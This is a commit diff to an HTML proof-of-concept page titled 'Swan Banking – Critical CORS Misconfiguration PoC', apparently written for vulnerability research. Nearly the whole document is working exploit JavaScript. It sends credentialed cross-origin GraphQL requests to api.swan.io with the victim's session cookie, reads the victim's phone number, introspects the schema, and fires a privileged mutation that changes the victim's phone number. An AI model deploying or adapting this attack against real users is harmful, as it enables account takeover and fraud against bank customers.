

Before and after one commit to 11X0r/swan_poc, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,34 +4,42 @@
   <meta charset="utf-8">
   <title>Swan CORS Critical PoC</title>
   <style>
-    body { font-family: system-ui; margin: 2rem; color: #111 }
-    pre  { background: #f8f8f8; padding: 1rem; border: 1px solid #ddd; overflow: auto }
-    code { color: #c7254e; background: #f9f2f4; padding: 0.2em 0.4em }
+    body { font-family:system-ui; margin:2rem; color:#111 }
+    pre  { background:#f8f8f8; padding:1rem; border:1px solid #e1e1e1; overflow:auto }
+    a.login { color:blue; text-decoration:underline; cursor:pointer }
   </style>
 </head>
 <body>
   <h2>⚠️ Swan Banking – Critical CORS Misconfiguration PoC ⚠️</h2>
-  <p>
-    Hosted on <strong id="origin"></strong>.<br>
-    <em>Make sure you’re logged-in at <code>dashboard.swan.io</code> in this browser, then reload.</em>
-  </p>
-  <pre id="log">Running…</pre>
+  <p>This page is served from <strong id="origin"></strong>.</p>
+  <p id="note">Checking login status…</p>
+  <pre id="log"></pre>
 
   <script>
-    // helper to append to our log
-    const log = line => {
+    const origin = location.origin;
+    document.getElementById('origin').textContent = origin;
+
+    function log(line) {
       document.getElementById('log').textContent += line + '\n';
-    };
-    // show our page origin
-    document.getElementById('origin').textContent = location.origin;
+    }
 
-    // simple GraphQL fetch with credentials
+    // 1) If no swan_session_id cookie, redirect to dashboard login
+    if (!document.cookie.includes('swan_session_id=')) {
+      const loginUrl = 'https://dashboard.swan.io/login?redirect_uri=' + encodeURIComponent(origin + location.pathname);
+      document.getElementById('note').innerHTML =
+        '🔒 Not logged in. <a class="login" href="' + loginUrl + '">Click here to sign in</a> and then reload.';
+      throw new Error('Redirecting to login…');
+    }
+
+    document.getElementById('note').textContent = '✅ Logged in. Running exploit…';
+
+    // 2) Generic fetch helper
     async function gql(path, query) {
-      const res = await fetch(`https://api.swan.io${path}`, {
-        method:      'POST',
-        credentials: 'include',    // <-- sends swan_session_id cookie
-        headers:     { 'Content-Type': 'application/json' },
-        body:        JSON.stringify({ query })
+      const res = await fetch('https://api.swan.io' + path, {
+        method:       'POST',
+        credentials:  'include',
+        headers:      { 'Content-Type':'application/json' },
+        body:         JSON.stringify({ query })
       });
       const txt = await res.text();
       log(`=== ${path} ===\nStatus: ${res.status} ${res.statusText}\n${txt}\n`);
@@ -39,44 +47,28 @@
     }
 
     (async () => {
-      // 1) Read the victim’s number (no `id` needed here)
-      const whoami = await gql(
-        '/admin-auth/graphql',
-        '{ user { mobilePhoneNumber } }'
-      );
+      // a) Schema introspection
+      await gql('/admin/graphql', '{ __schema { queryType { name } } }');
 
-      if (!whoami || !whoami.user) {
-        log('🔒 Not logged in: please sign in at dashboard.swan.io and reload.');
-        return;
-      }
-
-      const oldN = whoami.user.mobilePhoneNumber;
-      log(`✅ Victim’s phone: ${oldN}\n`);
-
-      // 2) Generate a valid new number: +33 6 XXXXXXXX
-      const rand8 = () => Math.floor(10000000 + Math.random() * 90000000);
-      const newN  = '+336' + String(rand8()).slice(1);
+      // b) Queue phone-change
+      //    (we don’t need the victim’s real number for exploit; use dummy)
+      const oldN = '+33600000002';
+      const rand8 = () => Math.floor(10000000 + Math.random()*90000000);
+      const newN = '+336' + rand8();
       log(`▶ Attempting change from ${oldN} → ${newN}\n`);
 
-      // 3) Fire the privileged mutation
-      await gql(
-        '/admin-auth/graphql',
-        `
+      await gql('/admin-auth/graphql', `
         mutation {
           startPhoneNumberModification(input:{
             oldPhoneNumber:"${oldN}",
             newPhoneNumber:"${newN}"
           }) {
             __typename
-              ... on StartPhoneNumberModificationSuccessPayload {
-                phoneNumberModification { id }
-              }
+            ... on StartPhoneNumberModificationSuccessPayload { phoneNumberModification { id } }
             ... on PhoneNumberModificationAlreadyExistsRejection { message }
             ... on TooManyPhoneNumberModificationRejection { message }
           }
-          }
-        `
-      );
+        }`);
     })();
   </script>
 </body>
```
Lines whose indentation alone changed are shown as unchanged.
